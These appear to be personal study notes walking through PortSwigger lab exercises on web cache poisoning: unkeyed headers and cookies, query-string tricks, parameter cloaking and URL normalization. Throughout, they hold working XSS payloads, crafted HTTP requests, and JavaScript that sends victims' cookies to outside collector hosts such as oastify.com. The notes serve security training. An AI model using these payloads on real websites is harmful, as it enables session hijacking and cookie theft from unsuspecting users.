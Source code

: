 ___

Watch for `/resources/js/tracking.js` file and `X-Cache: hit` header in response.
If you got only tracking.js without X-Cache - no cache poisoning here.

![[Pasted image 20240808103007.png]]

If you got both file and header, the first thing you should try is to inject your exploit server into **Host:** or **X-Forwarded-Host:** headers and check them in response

![[Pasted image 20240808103015.png]]

You got the poisoned cache with X-Forwarded-Host? Cool, now go to your exploit server, set the File name /resources/js/tracking.js and in Body section paste the next payload: `document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />')`. Poison web cache with your server and wait for victim's cookies.

```js
document.location='https://OASTIFY.COM/?cookies='+document.cookie;
```

# Web cache poisoning with an unkeyed header

The application supports the use of a custom HTTP header to override the Host header, and uses a cache that can be manipulated into saving responses that have been influenced by this header.  
  
Burp added the following headers to the request:  
  
X-Forwarded-Host: wvv7qb16dsbmfio5z8d5hum5bwhp5gt9uxkka8z.oastify.com  
X-Host: wvv7qb16dsbmfio5z8d5hum5bwhp5gt9uxkka8z.oastify.com  
X-Forwarded-Server: wvv7qb16dsbmfio5z8d5hum5bwhp5gt9uxkka8z.oastify.com


![[Pasted image 20240808105803.png]]

## Cookie steal

X-Forwarded-Host: exploit-0ab30085047ba7ec862a98ec018d0091.exploit-server.net

Exploit server: 
	File: /resources/js/tracking.js
	Body: document.location='http://00ytfwduj1605olk3s3bahg31u7mvb.oastify.com/?cookies='+document.cookie;

![[Pasted image 20240808112148.png]]


# Web cache poisoning with an unkeyed cookie

![[Pasted image 20240808152709.png]]

```js
test"-alert(1)-"test
```

![[Pasted image 20240808152936.png]]

# Web cache poisoning with multiple headers

![[Pasted image 20240809035334.png]]

The `Location` header shows that you are being redirected to the same URL that you requested, but using `https://`

![[Pasted image 20240809035608.png]]

> On exploit-server change the file name to match the path used by the vulnerable response: /resources/js/tracking.js. In body write `alert(document.cookie)` script.

```
GET /resources/js/tracking.js HTTP/1.1
Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
X-Forwarded-Host: exploit-server.web-security-academy.net/
X-Forwarded-Scheme: http
```

To check that the response was cached correctly, right-click on the request in Burp, select "Copy URL", and load this URL in Burp's browser.


# Targeted web cache poisoning using an unknown header

X-Forwarded-Host: exploit-0a56003803b033f28209c8f101b900f2.exploit-server.net  
X-Host: exploit-0a56003803b033f28209c8f101b900f2.exploit-server.net  
X-Forwarded-Server: exploit-0a56003803b033f28209c8f101b900f2.exploit-server.net

Vary: User-Agent

```html
<img src="http://7fnahm68mm5got179axb1rv59wfn3c.oastify.com/" />
```

User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Change User-Agent on the request
![[Pasted image 20240809114403.png]]

# Web cache poisoning via an unkeyed query string

utm_content=yui1kx7r00
Origin: x
```js
/?cb=1244&utm_content=vaina'/><script>alert(1)</script>
```

```js
/?utm_content='/><script>document.location="https://OASTIFY.COM?c="+document.cookie</script>
```

# Web cache poisoning via an unkeyed query parameter

```js
/?utm_content=123'/><script>alert(1)</script>
```

# Parameter cloaking

Param Miner extension doing a `Bulk scan > Rails parameter cloaking scan` will _**identify**_ the vulnerability automatically. Manually it can be identified by adding `;` to append another parameter to `utm_content`, the cache treats this as a single parameter. This means that the extra parameter is also excluded from the cache key.

```js
/js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1)
```


# Web cache poisoning via a fat GET request

![[Pasted image 20240812072707.png]]

![[Pasted image 20240812073926.png]]


# URL normalization

```js
/random><script>alert(1)</script>
```

![[Pasted image 20240812075430.png]]